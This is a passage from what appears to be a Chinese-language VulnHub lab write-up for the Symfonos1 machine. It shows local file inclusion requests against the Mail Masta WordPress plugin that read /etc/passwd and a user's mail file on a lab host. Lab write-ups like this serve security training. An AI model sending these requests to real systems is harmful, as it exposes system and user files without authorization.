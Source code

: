 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/12.png)

可以,下面尝试从其他文件得到一些信息

`http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios`

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/13.png)
